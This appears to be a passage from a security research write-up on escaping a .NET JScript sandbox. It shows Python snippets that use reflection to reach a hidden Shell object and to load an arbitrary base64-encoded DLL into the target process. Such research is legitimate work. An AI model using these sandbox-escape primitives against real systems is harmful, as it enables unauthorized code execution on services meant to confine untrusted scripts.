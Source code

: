 If we can modify some existing code and get this line: `LifetimeServices.LeaseTime = TimeSpan.FromDays(365.0);` to execute our code instead, we can run with unrestricted permissions. Unfortunately, all our efforts to do so failed and we couldn't get it to work.
## Using the Shel Obejct to Communicate Stuff Back
At this level of infra, we no longer want to use `memset() / metmlist()` to show strings, so we can just retrieve the Shell object from `JScriptRunner.JScriptGlobal` and use it to communicate. This involves getting the "Shell" Property and accessing its value:
```
JScriptGlobalType = FindType("JScriptRunner.JScriptGlobal")

# Type.GetProperty()
GetProperty = GetMethod(Type, "GetProperty", False, True, False, MakeArray(convert_arg("sdf"), GetFlags(True, True, True)))

# typeof(JScriptRunner.JScriptGlobal).GetProperty("Shell", BindingFlags.NonPublic)
GlobalShellProp = CallMethodImpl(GetProperty, JScriptGlobalType, convert_arg("Shell"), GetFlags(False, True, True))

# ShellProperty.GetValue(this)
MyShell = CallMethodSecure(GlobalShellProp, "GetValue", 'this')

# Shell.WriteLine("Hello World!")
line = CallMethodSecure(MyShell, "WriteLine", convert_arg("Hello World!"))
remote.sendline(line)
```
## Loading a Custom Assembly
During the research, we managed to create a lot of snippets to do complicated stuff we wanted. This is an example of how to load a custom compiled assembly:
```
Array = "__global__.System.Array"
JScriptUtils_Type = FindType("JScriptRunner.JScriptUtils")
MethodInfoType = FindType("System.Reflection.MethodInfo")

FromBase64String_func = '__global__.System.Convert.FromBase64String'
def Base64Decode(s):
    return '{func}({s})'.format(func=FromBase64String_func, s=convert_arg(s))

# System.Array.GetValue(int index)
ArrayGetValue_func = GetMethod(Array, "GetValue", False, True, False, MakeArray(1))
def ArrayGetValue(array, index):
    return CallMethodImpl(ArrayGetValue_func, array, index)

# MethodInfo.Invoke(object obj, object[] parameters)
MethodInfo_invoke1 = GetMethod(MethodInfoType, "Invoke", False, True, False, MakeArray(Object, MakeArray()))

# typeof(Assembly).GetMethods()
Assembly_methods = CallMethodImpl(GetMethods, AssemblyType, GetFlags(True, True, False))

# typeof(Assembly).GetMethods()[20]
# public static Assembly Load(byte[] rawAssembly, byte[] rawSymbolStore, SecurityContextSource securityContextSource)
Assembly_Load_3params = ArrayGetValue(Assembly_methods, 20)

# typeof(Assembly).GetMethods()[20].Invoke(Assembly, Base64Decode(BASE64_OF_THE_COMPILED_DLL), null, SecurityContextSource.CurrentAppDomain)
LoadMyAssembly = CallMethodSecure(JScriptUtils_Type, "CallMethod", MethodInfo_invoke1, Assembly_Load_3params, MakeArray(AssemblyType, MakeArray(
    Base64Decode(BASE64_OF_THE_COMPILED_DLL), null, 0
)))

remote.sendline(LoadMyAssembly)
```